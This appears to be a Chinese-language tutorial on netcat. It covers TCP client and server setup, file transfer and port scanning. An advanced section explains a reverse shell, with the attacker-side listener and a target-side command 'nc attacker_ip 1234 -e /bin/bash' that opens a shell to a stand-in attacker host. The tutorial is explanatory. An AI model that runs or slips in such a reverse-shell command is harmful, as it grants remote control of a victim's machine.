 #### Netcat
Netcat: 网络调试和探查工具。

```shell
brew install netcat
```

基础用法
创建一个简单的 TCP 服务器

打开一个终端并运行以下命令以在端口 1234 上启动一个 TCP 服务器。

```bash
nc -l 1234
```
创建一个简单的 TCP 客户端

打开另一个终端并运行以下命令以连接到上面创建的服务器。

```bash
nc localhost 1234
```
现在，你可以在客户端终端中输入文本，并在服务器终端中看到相同的文本。

文件传输

服务器端： 在服务器端等待接收文件。
```bash
nc -l 1234 > received_file.txt
```
客户端端： 发送一个文件到服务器。

```bash
nc localhost 1234 < send_file.txt
```

端口扫描
你可以使用 Netcat 执行基础的端口扫描。

```bash
nc -zv localhost 20-80
```

高级用法

反向 Shell
攻击者机器： 在攻击者的机器上运行。
```bash
nc -l 1234
```
目标机器： 在目标机器上运行。

```bash
nc attacker_ip 1234 -e /bin/bash
```

攻击者机器: 这是发起攻击的计算机。在这个计算机上，攻击者会运行各种工具和命令，试图访问或控制目标机器。在给出的例子中，nc -l 1234 是在攻击者机器上运行的，用于监听（等待）目标机器的连接。

目标机器: 这是攻击者试图访问或控制的计算机。在给出的例子中，nc attacker_ip 1234 -e /bin/bash 是在目标机器上运行的。这个命令会连接到攻击者机器，并执行 /bin/bash，从而允许攻击者通过网络执行 shell 命令。

简单来说，如果你是目标（被攻击者），你不会在自己的机器上运行 nc attacker_ip 1234 -e /bin/bash，因为这样做会给攻击者提供对你机器的控制权。相反，攻击者会尝试某种方式让你的机器执行这个命令，以便他们能够控制你的机器。
